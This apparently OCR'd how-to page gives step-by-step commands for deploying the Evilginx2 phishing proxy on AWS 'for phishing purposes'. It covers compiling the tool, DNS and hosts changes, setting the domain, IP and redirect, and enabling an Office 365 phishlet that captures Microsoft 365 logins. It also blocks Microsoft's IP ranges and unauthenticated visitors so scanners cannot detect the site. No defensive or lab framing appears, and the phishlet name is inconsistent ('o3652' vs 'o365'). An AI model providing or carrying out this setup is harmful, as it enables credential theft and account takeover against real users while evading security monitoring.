 Setting up Evilginx2 on AWS involves installing, configuring, and customizing the tool for phishing purposes. Here's a step-by-step guide on how to do it:

1. **Install Golang and Download Evilginx2:**
   - Run the command `sudo apt install golang` to install Golang.
   - Download the Evilginx2 package. You can choose from these two recommended packages:
     - [Optiv's Evilginx2](https://github.com/optiv/evilginx2)
     - [aalex954's Evilginx2-tuned](https://github.com/aalex954/evilginx2-tuned)

2. **Compile Evilginx2:**
   - Navigate to the downloaded Evilginx2 package using the terminal.
   - Run `go build` to compile all the packages.

3. **Configure DNS Settings:**
   - Remove the existing resolv.conf file: `sudo rm /etc/resolv.conf`
   - Create a symbolic link to resolve.conf: `sudo ln -s /run/systemd/resolve/resolv.conf /etc/resolv.conf`

4. **Modify /etc/hosts:**
   - Add the internal IP address and your domain to the `/etc/hosts` file:
     ```
     [internal IP] yourdomain.com
     ```

5. **Stop Local DNS Server:**
   - Stop the local DNS server to avoid conflicts with Evilginx2:
     ```
     sudo systemctl stop systemd-resolved.service
     ```

6. **Edit Blacklist:**
   - Open the `blacklist.txt` file located in `~/.evilginx/`.
   - Add IPs from these sources:
     - [Custom Blacklist](https://github.com/aalex954/evilginx2-tuned/blob/master/Custom/blacklist.txt)
     - [Microsoft IP Tracker](https://github.com/aalex954/MSFT-IP-Tracker/releases/latest/download/msft_asn_ip_ranges.txt)

7. **Start Evilginx2:**
   - Run Evilginx2 with debugging enabled: `./evilginx2 -p /phishlets/ -debug`

8. **Configure Evilginx2:**
   - Set the domain, external IP, and redirect URL:
     ```
     : config domain yourdomain.com
     : config ip XX.XX.XX.XXX
     : config redirect_url https://url.for.the.redirect
     ```

9. **Configure Phishlets:**
   - Set up the o3652 phishlet to use the configured domain:
     ```
     : phishlets hostname o365 yourdomain.com
     : phishlets enable o3652
     ```

10. **Blacklist Setup:**
    - Add blacklist rules to prevent scanning: `: blacklist unauth`
